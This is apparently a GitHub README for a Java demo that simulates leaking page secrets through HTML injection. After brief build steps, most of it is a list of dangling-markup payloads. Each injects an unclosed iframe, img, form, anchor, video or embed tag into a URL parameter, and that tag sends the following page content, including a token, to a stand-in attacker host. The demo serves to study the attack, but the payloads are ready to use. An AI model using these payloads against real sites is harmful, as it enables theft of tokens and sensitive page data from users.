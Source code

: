 # HTML-based-injection-attack-demo

这是一个模拟**基于 HTML 注入的页面敏感信息传送**场景的 Demo。

# 使用方法
1.修改 `SettingController` 类里的 `EMAIL_ACCOUNT`发件人邮箱 和 `EMAIL_PASS`发件人密码

2.使用 maven+jdk 编译

3.启动项目，访问`http://127.0.0.1:8080`

# payload


- **iframe**

```
http://target/token?point1=<iframe src='http://attacker/?&point2='></iframe>
```

- **img**
```
http://target/token?point1=<img src='http://attacker/?&point2='>
```
```
http://target/token?point1=<image src='http://attacker/?&point2='>aaa</image>
```

- **form**
```
http://target/token?point1=<form action='http://attacker/&point2='><input type="submit"></form>
```
```
http://target/token?point1=<form action="http://attacker" method="post"><textarea name="x">&point2=</textarea><input type="submit"></form>
```
```
http://target/token?point1=<form><input type="submit" formaction='http://attacker/&point2='></form>
```

- **a**
```
http://target/token?point1=<a href='http://attacker/?&point2='>click me</a>
```
```
http://target/token?point1=<math href='http://attacker/?&point2='>aaa</math>
```

- **video**
```
http://target/token?point1=<video src='http://attacker/?&point2='>aaa</video>
```
```
http://target/token?point1=<video><source src='http://attacker/?&point2='>aaa</source></video>
```

- **embed**

```
http://target/token?point1=<embed src='http://attacker/?&point2='>aaa</embed>
```

# 参考文章

https://b1ue.cn/archives/247.html

https://mp.weixin.qq.com/s/TIp0kwDtKHcT5BnTY1HLWg
